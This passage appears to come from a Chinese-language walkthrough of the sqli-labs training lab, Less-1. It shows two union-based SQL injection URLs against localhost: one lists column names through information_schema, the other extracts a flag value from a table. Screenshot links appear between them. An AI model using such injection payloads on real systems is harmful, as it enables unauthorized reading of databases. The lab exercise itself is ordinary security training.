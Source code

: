 ```url
获取列名
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where column_name="flags"; %23
```

![局部截取_20250503_160612](./img/局部截取_20250503_160612.png)

```url
获取flag
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,flag from answers.flag where stage="2"; %23
由题意已经给出在stage="2"的
```

![局部截取_20250503_161134](./img/局部截取_20250503_161134.png)

